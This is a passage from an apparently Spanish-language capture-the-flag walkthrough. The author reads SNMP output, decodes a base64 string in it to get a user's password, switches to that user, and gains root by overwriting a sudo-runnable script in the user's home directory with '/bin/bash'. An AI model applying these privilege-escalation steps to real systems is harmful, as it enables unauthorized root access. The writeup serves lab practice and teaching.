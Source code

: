 ```bash
iso.3.6.1.2.1.1.9.1.4.5 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.6 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.7 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.8 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.9 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.1.9.1.4.10 = Timeticks: (0) 0:00:00.00
iso.3.6.1.2.1.25.1.1.0 = Timeticks: (804626) 2:14:06.26
iso.3.6.1.2.1.25.1.2.0 = Hex-STRING: 07 E9 02 02 10 06 36 00 2B 01 00 
iso.3.6.1.2.1.25.1.3.0 = INTEGER: 393216
iso.3.6.1.2.1.25.1.4.0 = STRING: "BOOT_IMAGE=/boot/vmlinuz-6.11.2-amd64 root=UUID=01dc84be-1a9e-4188-93ae-2e0389720d04 ro quiet splash
"
iso.3.6.1.2.1.25.1.5.0 = Gauge32: 0
iso.3.6.1.2.1.25.1.6.0 = Gauge32: 20
iso.3.6.1.2.1.25.1.7.0 = INTEGER: 0
End of MIB
```

se puede observar el string `aW1wb3NpYmxlcGFzc3dvcmR1c2VyZmluYWw=` que podria ser base32 o 64 asi que tras testear 

```bash
echo 'aW1wb3NpYmxlcGFzc3dvcmR1c2VyZmluYWw=' |base64 -d
imposiblepassworduserfinal
```

ahora tengo la password del usuario `purter`

```bash
su purter
pass: imposiblepassworduserfinal
```

### purter

![image](https://github.com/user-attachments/assets/0229ccfa-74fb-4340-8706-a78af51f54cc)

el script que puedo ejecutar como `root` se encuentra en el directorio del usuario `purter` por lo que sin importar su contenido ejecuto lo sigueinte:

```bash
rm -rf /home/purter/.script.sh && echo '/bin/bash' > /home/purter/.script.sh && chmod +x /home/purter/.script.sh && sudo /home/purter/.script.sh
```
obtengo la shell como `root`

![image](https://github.com/user-attachments/assets/1e6959c2-6bdd-4aba-831f-f9fb7fb63ea9)


### PWNET-ROOT
